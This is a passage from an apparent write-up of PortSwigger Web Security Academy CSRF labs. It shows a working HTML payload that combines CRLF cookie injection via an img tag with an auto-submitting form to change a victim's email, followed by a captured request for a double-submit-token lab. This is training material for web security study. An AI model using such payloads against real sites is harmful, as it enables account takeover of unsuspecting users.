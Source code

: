 Server responds with

```
HTTP/1.1 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=wqVM7TKrfyTIhKMenMYcMc96RGP6DX6v; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3215
```

We can send a `csrfKey`, or better said, reflect it to the victim.

I'll use payload that was proposed in solution as well. We have to ditch the script and rather use `img` tag instead, to make reflection work!

```html
<form method="POST" action="https://0a5300d20416d3fcc016e18b001800a7.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
<input type="hidden" name="csrf" value="N1emx758Z7WvJCyVpuDvJIDd1Gtl3D9Q">

</form>
<img src="https://0a5300d20416d3fcc016e18b001800a7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=y8QhVUO6h50Ing529s6rMEqhS1ySAAqn%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

# CSRF where token is duplicated in cookie
> This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
> 
> To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

In this lab we have the same values in the cookia an in the request

```
POST /my-account/change-email HTTP/1.1
Host: 0aef0089046807e7c06dccfb00dc00ae.web-security-academy.net
Cookie: csrf=H2kkj4Hk3A1z3sdIS5z3etffUqbplagI; session=8wqk16y4qG1WBQSFCiq0Oz0vOq259TJ1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0aef0089046807e7c06dccfb00dc00ae.web-security-academy.net
Referer: https://0aef0089046807e7c06dccfb00dc00ae.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
...
Te: trailers
Connection: close

email=asd%40normal-user.net&csrf=H2kkj4Hk3A1z3sdIS5z3etffUqbplagI
```
